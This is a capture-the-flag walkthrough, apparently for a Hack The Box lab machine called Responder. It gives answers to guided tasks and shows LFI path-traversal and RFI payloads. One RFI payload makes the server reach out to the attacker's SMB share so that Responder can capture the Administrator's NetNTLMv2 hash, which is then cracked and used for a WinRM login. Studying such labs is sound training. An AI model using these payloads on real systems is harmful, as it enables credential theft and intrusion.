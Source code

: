 ## Box 4: Responder


 <img src="img/1.png" class="center">

This Box is tagged "SAMBA", "Enumeration", "Apache" and "WinRM". 

## Checking for open ports : 
First we run  **nmap -p- -sV -O 10.129.232.67**

 <img src="img/2.png" class="center">
 
 **Task1: How many TCP ports are open on the machine? :** 2 open ports 
 **- 80/tcp**
 **- 5985/tcp**  
 Seeing that a 5985/tcp port is open on our machine means that WinRM is configured and we can try entering a remote session.

**What is WinRM ?**
Windows Remote Management (WinRM) is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.
If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!) . 

**Task2: When visiting the web service using the IP address, what is the domain that we are being redirected to?** unika.htb
At this point, we need to setup a local DNS using the hosts file (/etc/hosts) 

<img src="img/3.png" class="center"> 

By entering the ip given we will get this page :
<img src="img/14.png" class="center"> 


**Task3: Which scripting language is being used on the server to generate webpages?** PHP
By using the tool Wapppalyzer we can see that the scripting language used is PHP 

<img src="img/4.png" class="center"> 

**Task4: What is the name of the URL parameter which is used to load different language versions of the webpage?** page
**Task5: Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
../../../../../../../../windows/system32/drivers/etc/hosts

<img src="img/5.png" class="center"> 

**Task6: Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"**
//10.10.14.6/somefile

**What is RFI ?**
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts. The perpetrator’s goal is to exploit the referencing function in an application to upload malware (e.g., backdoor shells) from a remote URL located within a different domain.

**Task7 : What does NTLM stand for?** New Technology Lan Manager 

**Task8 : Which flag do we use in the Responder utility to specify the network interface?** -I 


By using the responder which is an inbuilt Kali Linux tool for Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) that responds to specific NetBIOS queries based on the file server request.

<img src="img/6.png" class="center"> 
<img src="img/7.png" class="center"> 

Now that the responder server is listening , we will make the server include a ressource from our smb using the following payload:
**http://unika.htb/?page=//ourIP@/somefile**

The responder server got a NetNTLMv for the Administrator user.
<img src="img/8.png" class="center"> 
We can copy this hash into a file that we will call hash . 

**Task9 : There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?** John The Ripper 

We can now crack the hash that we have got using the tool John the Ripper to get the password of the Administrator like the following : 
<img src="img/9.png" class="center"> 

**Task10: What is the password for the administrator user?** badminton

**Task11: We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?** 5985

By using the tool evil winrm we can connect to the WinRM service on the target machine :

<img src="img/10.png" class="center"> 
<img src="img/11.png" class="center"> 
<img src="img/12.png" class="center"> 
We can find the flag under c:\Users\mike\Desktop
<img src="img/13.png" class="center"> 


